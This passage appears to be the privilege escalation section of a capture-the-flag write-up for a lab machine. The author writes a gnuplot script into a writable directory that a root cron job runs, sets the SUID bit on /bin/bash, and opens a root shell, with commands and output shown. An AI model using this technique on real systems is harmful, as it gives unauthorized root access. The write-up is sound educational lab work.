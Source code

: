 ## Privilege Escalation
----

Unfortunately, the user `vdaisley` doesn't have any sudo privileges.

```bash
(remote) vdaisley@topology:/home/vdaisley$ sudo -l
[sudo] password for vdaisley:
Sorry, user vdaisley may not run sudo on topology.
```

I came across a directory named `gnuplot` in `/opt` owned by root. Interestingly, the directory has write permissions, but it doesn't have read permissions for other users.

```bash
(remote) vdaisley@topology:/home/vdaisley$ ls -la /opt/
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
drwx-wx-wx  2 root root 4096 Jun 14 07:45 gnuplot
```

Using [pspy](https://github.com/DominicBreuker/pspy) I discovered a cronjob running in the background. This cronjob seems to locate all files with the `.plt` extension within the `/opt/gnuplot` directory and subsequently executes them using the `gnuplot` utility.

```bash
2023/06/22 08:55:01 CMD: UID=0     PID=22771  | find /opt/gnuplot -name *.plt -exec gnuplot {} ;
2023/06/22 08:55:01 CMD: UID=0     PID=22772  | gnuplot /opt/gnuplot/loadplot.plt
2023/06/22 08:55:01 CMD: UID=0     PID=22776  | /bin/sh /opt/gnuplot/getdata.sh
```

According to the [gnuplot documentation](http://gnuplot.info/docs_5.5/loc18483.html), the system command can be used to execute system commands within gnuplot. Since I have write permissions to the `/opt/gnuplot/` directory, I can write to files in that directory.

```bash
(remote) vdaisley@topology:/opt$ echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/privEsc.plt
(remote) vdaisley@topology:/opt$ cat gnuplot/privEsc.plt
system 'chmod +s /bin/bash'
(remote) vdaisley@topology:/opt$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

When the cron job executes, it sets the SUID bit on `/bin/bash`. This SUID bit allows me to execute `/bin/bash` in privileged mode, effectively granting me root privileges.

```bash
(remote) vdaisley@topology:/opt$ bash -p
(remote) root@topology:/opt# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) egid=0(root) groups=0(root),1007(vdaisley)
(remote) root@topology:/opt# cd /root
(remote) root@topology:/root# ls -l
total 4
-rw-r----- 1 root root 33 Jun 22 06:06 root.txt
(remote) root@topology:/root#
```
